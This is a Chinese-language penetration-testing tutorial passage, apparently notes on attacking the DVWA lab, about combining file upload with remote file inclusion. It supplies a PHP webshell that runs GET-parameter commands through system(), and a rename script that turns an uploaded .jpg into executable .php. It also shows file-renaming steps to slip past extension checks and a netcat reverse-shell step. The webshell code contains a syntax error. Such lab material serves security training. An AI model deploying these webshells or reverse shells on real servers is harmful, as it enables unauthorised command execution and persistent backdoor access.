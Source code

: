 ### 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。





### 1. 恶意使用文件包含和上传



##### 操作步骤

1. 准备好webshell

```php
// webshell.php  查了一趟之后，发现表单应该用get而不是post，因为第一条命令需要获取get的参数。。
<?
system($_GET['cmd'];
echo '<form method="get" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>';
?>
// rename.php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/webshell.php'); 
?>
    
```

2. 上传webshell，因为一般会有文件扩展名进行校验，因此对后缀进行修改

```shell
cp rename.php rename.jpg
cp webshell.php webshell.jpg
```

3. 上传两个文件
4. 通过`RFI`，先访问`rename.jpg`然后访问 `webshell.php`
5. 在页面或者拼接GET请求参数，传参到webshell中执行cmd命令



##### 工作原理

在上传有效 JPG 文件时，我们所做的第一个测试是为了发现上传文件保存的路径，便于我们可以在`rename.php`中，以及表单的`action`中使用这个路径。

使用重命名脚本有两个重要原因：首先，上传页面只允许 JPG 文件，所以我们的脚本需要这个扩展名，其次，我们需要带参数调用我们的 webshell（要执行的命令），而我们从 Web 服务器调用图片时不能带参数。

PHP 中的`system()`函数是攻击核心，它所做的是，执行系统命令并显示输出。这允许我们将 webshell 文件从`.jpg`重命名为`.php`文件并执行我们指定为 GET 参数的命令。



##### 更多

使用`Netcat`反向连接。

```shell
# 在源计算机端口8181开启Netcat侦听器
nc -lp 8181 
# 使用已经建立的后门shell连接，启动反弹TCP请求
backdoor_reversetcp 源ip 8181
```
